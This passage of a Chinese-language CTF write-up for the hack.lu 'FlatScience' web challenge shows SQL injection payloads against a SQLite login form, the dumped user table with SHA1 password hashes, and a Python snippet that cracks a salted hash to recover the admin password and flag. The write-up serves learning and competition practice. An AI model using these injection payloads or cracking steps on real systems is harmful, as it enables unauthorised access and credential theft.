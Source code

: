 ```

```

那么，我们就可以依次回显获得数据。接下来，我们可以利用sqlite3的特性，获得数据。

```
usr=111' union select 1,name FROM sqlite_master WHERE type='table' limit 0,1 --+&pw=flux

获得表信息，得到信息：只有一个表 Users

获得所有表结构：
usr=111' union select 1,sql FROM sqlite_master WHERE type='table' limit 0,1 --+&pw=flux

表结构如下：
 CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```

最终，表内容如下：

| id   | Name   | password                                 | hint                        |
| ---- | ------ | ---------------------------------------- | --------------------------- |
| 1    | admin  | 3fab54a50e770d830c0416df817567662a9dc85c | my+fav+word+in+my+fav+paper |
| 2    | fritze | 54eae8935c90f467427f05e4ece82cf569f89507 | my+love+is…?                |
| 3    | hansi  | 34b0bb7c304949f9ff2fc101eef0f048be10d3bd | the+password+is+password    |

会发现cmd5能够解开2，3的sha1，而1的sha1无法解开。利用hint，对网站上所有的paper进行分析。导入paper中的所有单词，进行哈希爆破。

```python
def test(s):
	salt = 'Salz!'
	a = s+salt
	sha = hashlib.sha1(a).hexdigest()
	# print sha
	flag = '3fab54a50e770d830c0416df817567662a9dc85c'
	# print flag
	if flag==sha:
		print s
		return  True
	else:
		return False
```

获得密码，**ThinJerboa**

登录，得到flag

![flatscience](https://mo-xiaoxi.github.io/img/post/hacklu/flatscience.png)



## Triangle 

一个Web逆向题，没看。学长说是，Unicorn.js模拟的arm binary。





## 总结：

以前一直听说hacklu的CTF题目质量很高，但参加这次下来，感觉Web题目一般，没什么特别新的思路，还加了一些杂项的技巧，不知道其他类型的题目怎么样。